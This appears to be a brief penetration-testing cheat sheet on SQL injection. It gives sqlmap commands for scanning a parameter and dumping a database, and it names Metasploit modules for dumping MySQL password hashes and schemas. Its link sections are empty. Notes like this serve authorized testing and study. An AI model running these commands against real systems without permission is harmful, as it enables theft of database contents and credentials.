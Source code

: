 # SQL Injection

## SQLMap
___
- Basic SQLMap
```sh
sqlmap -u "http://url/avec?param=true" --batch --cookie "KEY=Value"
```

- Dump database content, with a raw request
> First: Save a raw request with Burpsuite or ZAP
```sh
sqlmap -r request.raw --batch --random-agent -D database --dump
```

## Metasploit
___
### Useful modules
- auxiliary/scanner/mysql/mysql_hashdump
- scanner/mysql/mysql_schemadump

## Links
___
### Guides
- 

### Writeups
- 